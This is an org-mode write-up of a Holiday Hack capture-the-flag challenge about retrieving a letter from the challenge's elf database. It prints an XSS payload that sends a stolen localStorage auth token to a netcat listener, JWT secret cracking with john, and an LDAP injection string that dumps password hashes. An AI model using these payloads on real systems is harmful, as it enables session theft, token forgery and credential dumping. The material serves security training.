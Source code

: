 * Question
   :PROPERTIES:
   :CUSTOM_ID: q8_question
   :END:

Fetch the letter to Santa from the North Pole Elf Database at
http://edb.northpolechristmastown.com. Who wrote the letter?

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q8_background-information
   :END:

Do we know anything about this system already?

Hints:

List any useful hints here.

Blog Posts:

Are any of these useful?

- Putting My Zero Cents In: Using the Free Tier on Amazon Web Services
  (EC2)
  https://pen-testing.sans.org/blog/2017/12/10/putting-my-zero-cents-in-using-the-free-tier-on-amazon-web-services-ec2
  Spinning up an EC2 instance, but also a lot of emphasis on how to use
  SSH keys.
- Your Pokemon Guide for Essential SQL Pen Test Commands
  https://pen-testing.sans.org/blog/2017/12/09/your-pokemon-guide-for-essential-sql-pen-test-commands
  SQL basics (SELECT, WHERE, wildcards, ORDER BY, GROUP BY, COUNT)
- Exploiting XXE Vulnerabilities in IIS/.NET
  https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities
  Including remote content in XML
- Why You Need the Skills to Tinker with Publicly Released Exploit Code
  https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code
  Mentions Apache struts vulnerabilities, specifically CVE-2017-5638 and
  CVE-2017-9805 Code: https://github.com/chrisjd20/cve-2017-9805.py
- Go To The Head Of The Class: LD\_PRELOAD For The Win
  https://pen-testing.sans.org/blog/2017/12/06/go-to-the-head-of-the-class-ld-preload-for-the-win
- A Spot of Tee
  https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee Restricted
  bash shell, and bypassing the I/O restriction with tee
- Understanding and Exploiting Web-based LDAP
  https://pen-testing.sans.org/blog/2017/11/27/understanding-and-exploiting-web-based-ldap
  LDAP syntax, LDAP injection
- Massively Scaling your Scanning
  https://pen-testing.sans.org/blog/2017/10/25/massively-scaling-your-scanning
  masscan

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q8_goal
   :END:

What are we trying to accomplish?

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q8_approach
   :END:

Describe the thought process that we tried here. How were we able to use
the hints or the blog posts?

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q8_solution
   :END:

Summarize the reference solution that we found

My solution:

This was a multi stage exploit.

The first stage was XSS via the support request.

First I attempted to steal document.cookie, but then i realized the cookie
didn't help, and one needed the auth token mentioned in the html/javascript
source:

#+BEGIN_SRC js
    token = localStorage.getItem("np-auth");
#+END_SRC


on l2s:

#+BEGIN_SRC
$ nc -v -l -p 4444 on l2s
#+END_SRC

#+BEGIN_SRC
http -v --form --proxy=http:socks5://@localhost:32080  POST http://edb.northpolechristmastown.com/service \
uid=alabaster.snowball \
email=alabaster.snowball@northpolechristmastown.com \
message="<IMG SRC=/ onerror=\"document.location='http://10.142.0.11:4444/?cookie='+localStorage.getItem('np-auth');\"></img>"
#+END_SRC

With the success of the XSS attack, the stolen token was stored in [output/jwt](output/jwt).

Unfortunately the token had expired 4 months ago, and could no longer be used to create a new session:

#+BEGIN_SRC python
>>> import jwt
>>> token=open("jwt").read().strip()
>>> jwt.decode(token, verify=False)
{'dept': 'Engineering', 'ou': 'elf', 'expires': '2017-08-16 12:00:47.248093+00:00', 'uid': 'alabaster.snowball'}
#+END_SRC

We needed to crack the encryption key in order to forge a new, valid one.  We
used jwt2john.py and john to crack it.  The Makefile shows the process:

#+BEGIN_SRC
jwt.john: ../tools/jwt2john.py jwt
	python3 ../tools/jwt2john.py $(shell cat jwt) > jwt.john

john.txt: jwt.john
	john  --format=HMAC-SHA256 jwt.john
	john  --format=HMAC-SHA256 jwt.john -show > john.txt
#+END_SRC

jwt2john is used to convert the raw jwt token to a file format john can
understand, and then john is used to crack it:

#+BEGIN_SRC
$ make john.txt
python3 ../tools/jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I > jwt.john
john  --format=HMAC-SHA256 jwt.john
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 32/64 OpenSSL])
Press 'q' or Ctrl-C to abort, almost any other key for status

3lv3s            (?)
1g 0:00:06:22 DONE 3/3 (2018-01-10 10:45) 0.002613g/s 835027p/s 835027c/s 835027C/s 3lv3s
Use the "--show" option to display all of the cracked passwords reliably
Session completed
john  --format=HMAC-SHA256 jwt.john -show > john.txt
$ cat john.txt
?:3lv3s
#+END_SRC

Cracking the jwt token took 6 minutes and found that the secret key was =3lv3s=.

TODO: show make_jwt.py and alabaster.jwt makefile targets and how it was used to login. using the browser tools

To automate the process [tools/edb.py](tools/edb.py) was written to exploit the ldap injection vuln using the search string

#+BEGIN_SRC
    name=))(department=it)(|(cn=
#+END_SRC

and by passing =*= as the attributes query field. With that query and all
attributes it is able to grab the entire ldap database including password
hashes.

The letter page requires a valid password, convienently a google search for santas md5 password quickly finds a valid password.

* Alternatives
   :PROPERTIES:
   :CUSTOM_ID: q8_alternatives
   :END:

Any other, easier solutions?

* Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: q8_common-pitfalls
   :END:

Do we know what issue(s) people were running into?

Cracking the JWT key was tricky without the propper tools.
My first python based solution was broken.  A fixed version was too slow.
running it using pypy helped a bit, but the pyjwt library is not optimized for cracking.
https://github.com/lmammino/jwt-cracker was a bit faster, but john outperformed
everything.  The hard part was finding out how to use john to crack a jwt secret key.

* About the Challenge
   :PROPERTIES:
   :CUSTOM_ID: q8_about-the-challenge
   :END:

How was the challenge setup? Was there a better way to secure this
system?
